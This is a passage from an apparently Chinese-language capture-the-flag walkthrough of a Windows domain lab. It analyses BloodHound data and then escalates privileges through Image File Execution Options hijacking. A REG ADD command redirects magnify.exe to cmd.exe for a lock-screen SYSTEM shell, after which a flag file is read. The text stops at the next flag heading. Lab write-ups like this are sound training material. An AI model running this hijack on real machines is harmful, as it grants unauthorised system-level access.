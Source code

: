 ![image-20250312194209589](../assets/image-20250312194209589.png)

将数据采集完生成的zip文件，上传导入到BloodHound分析

![undefined](../assets/undefined.png)

从图中，我们会发现46这台机子的用户是域管，那我们接下来就要想办法在这台机子上提权，然后拿下域控

根据前面的hint

```
Do you know how to hijack Image?
```

我们可以知道接下来要进行镜像劫持(IFEO)提权

```
Get-ACL -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl
```

这条命令的意思是获取指定注册表路径的访问控制列表（ACL）。

![image-20250312203230115](../assets/image-20250312203230115.png)

```
NT AUTHORITY\Authenticated Users
```

我们可以发现全部已登录用户都可以对注册表进行修改

那我们就可以通过修改注册表进行映像劫持

我们这里通过将放大镜启动的magnify.exe替换成C:\windows\system32\cmd.exe，来进行提权

```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

修改后选择锁定

![image-20250312204030378](../assets/image-20250312204030378.png)

在锁定页面选择放大镜即可

![image-20250312204318481](../assets/image-20250312204318481-1741783399075-2.png)

```
type c:\Users\Administrator\flag\flag02.txt
```

![image-20250312204643818](../assets/image-20250312204643818.png)

接着我们可以新建一个用户让rdp可以连上去





### FLAG3

